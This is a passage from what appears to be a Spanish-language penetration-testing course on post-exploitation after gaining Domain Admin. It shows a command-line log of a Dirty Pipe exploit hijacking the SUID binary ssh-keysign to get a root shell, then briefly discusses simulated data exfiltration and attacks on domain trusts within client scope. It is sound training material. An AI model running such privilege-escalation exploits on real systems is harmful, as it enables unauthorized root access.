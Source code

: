 Finalmente, ejecutaremos el exploit contra el binario **SUID** `/usr/lib/openssh/ssh-keysign` y caeremos en una **shell** **root**.

```r
ssmallsadm@MGMT01:~$ ./dirtypipe /usr/lib/openssh/ssh-keysign

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),1001(ssmallsadm)
```

Desde aquí, podríamos realizar post-explotación del sistema de archivos para probar el nivel de acceso que hemos logrado.

---

## Data Exfiltration Simulation

Algunos clientes pueden querer probar sus capacidades de `Data Loss Prevention` (**DLP**), por lo que podríamos experimentar con varias formas de exfiltrar datos simulados de su red para ver si somos detectados. Debemos trabajar con el cliente para comprender qué tipos de datos están tratando de proteger y proceder en consecuencia. Es mejor usar datos simulados para no tener que lidiar con datos altamente sensibles del cliente en nuestro sistema de prueba.

---

## Attacking Domain Trusts

Si hay **domain trusts**, podríamos usar nuestras habilidades para enumerar estas relaciones y explotar una relación de confianza child --> parent, una confianza intra-forest, o una confianza de forest externo. Antes de hacerlo, debemos consultar con el cliente para asegurarnos de que el **domain** objetivo está dentro del alcance de la prueba. A veces comprometeremos un **domain** menos importante y podremos usar este acceso para tomar completamente el **domain** principal. Esto puede proporcionar mucho valor al cliente, ya que pueden haber establecido relaciones de confianza apresuradamente como resultado de una fusión y adquisición o conectarse a otra organización. Su **domain** puede estar bien reforzado, pero ¿qué pasa si podemos hacer **Kerberoasting** a través de una confianza de **forest**, comprometer un **forest** asociado y luego encontrar una cuenta en el **forest** asociado que tenga todos los derechos de administrador en nuestro **domain** actual? En esta situación, podríamos demostrar a nuestro cliente que la principal debilidad no está en el **domain** que estamos probando, sino en otro, para que puedan proceder en consecuencia.

---

## Closing Thoughts

Esta sección mostró una muestra de las cosas que podemos hacer `AFTER` lograr **Domain Admin** en un entorno del cliente. Llegar, hackear al cliente y mostrar lo rápido que obtuviste **DA** no sirve de nada para el cliente y no te ayuda a ti ni a tu empresa a retener clientes y difundir una reputación sólida. Lo que hacemos después de lograr **Domain Admin** es extremadamente importante y aquí es donde podemos diferenciarnos de otros probadores que simplemente ejecutan **Responder**, algunas otras herramientas y scripts, un escaneo de **Nessus**, emiten un informe estándar y lo llaman un día. Tu informe entregable debería demostrar el valor de la prueba de penetración por la que tu cliente está pagando y podemos asegurarnos de que estén contentos y regresen en los años siguientes si vamos más allá. Esto no siempre es posible debido a restricciones contractuales y evaluaciones con límite de tiempo, pero incluso si podemos proporcionar un poco más, estamos por delante del grupo. Ten en cuenta que las cosas que identificamos en nuestro informe pueden afectar la financiación de un cliente para el año siguiente y esa financiación probablemente incluye pruebas de penetración. No queremos inflar el informe con hallazgos sin sentido, por supuesto, pero a menudo podemos identificar muchas cosas que nuestro cliente nunca había considerado y ellos y tú estarán mejor por ello.


